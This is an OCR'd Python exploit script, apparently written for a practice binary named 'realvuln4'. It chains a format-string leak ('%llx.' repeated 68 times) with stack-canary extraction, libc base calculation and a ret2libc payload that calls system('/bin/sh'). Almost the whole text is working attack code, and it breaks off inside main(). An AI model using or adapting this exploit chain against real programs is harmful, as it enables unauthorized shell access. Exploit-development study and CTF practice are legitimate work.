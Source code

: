 def leak_addresses():
    leaker = '%llx.' * 68
    return leaker


def prepend_0x_to_hex_value(hex_value):
    full_hex_value = '0x' + hex_value
    return full_hex_value


def extract_lower_8_bits(double_long_chunk):
    return double_long_chunk[len(double_long_chunk) / 2:]


def cast_hex_to_int(hex_value):
    return int(hex_value, 16)


def get_canary_value(address_dump):
    get_canary_chunk = address_dump.split('.')[-2]
    get_canary_part = extract_lower_8_bits(get_canary_chunk)
    canary_with_pre_fix = prepend_0x_to_hex_value(get_canary_part)
    print("[+] Canary value is {}".format(canary_with_pre_fix))
    canary_to_int = cast_hex_to_int(canary_with_pre_fix)
    return canary_to_int


def get_libc_base_from_leak(address_dump):
    get_address_chunk = address_dump.split('.')[1]
    get_malloc_chunk_of_it = extract_lower_8_bits(get_address_chunk)
    malloc_with_prefix = prepend_0x_to_hex_value(get_malloc_chunk_of_it)
    print("[+] malloc+26 is @ {}".format(malloc_with_prefix))
    libc_base = cast_hex_to_int(malloc_with_prefix)-0x1f6faa                # offset manually calculated by leak-libcbase
    print("[+] This puts libc base address @ {}".format(hex(libc_base)))
    return libc_base


def payload(leaked_adrs):
    canary = get_canary_value(leaked_adrs)
    libc_base = get_libc_base_from_leak(leaked_adrs)

    bin_sh = int(libc.search("/bin/sh").next())
    print("[+] /bin/sh located @ offset {}".format(hex(bin_sh)))

    shell_addr = libc_base + bin_sh
    print("[+] Shell address is {}".format(hex(shell_addr)))

    print("[+] system@libc has offset: {}".format(hex(libc.symbols['system'])))
    system_call = libc_base + libc.symbols['system']
    print("[+] This puts the system call to {}".format(hex(system_call)))

    payload = ''
    payload += cyclic(1024)
    payload += p32(canary)
    payload += 'AAAA'
    payload += 'BBBBCCCC'
    #payload += p32(0x080485cb)          # jump to untouched to show code redirection
    #payload += p32(start_of_stack)      # jump to stack start if no DEP this allows easy shell popping
    payload += p32(system_call)
    payload += 'AAAA'
    payload += p32(shell_addr)
    return payload


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binary/realvuln4'

    if args.dbg: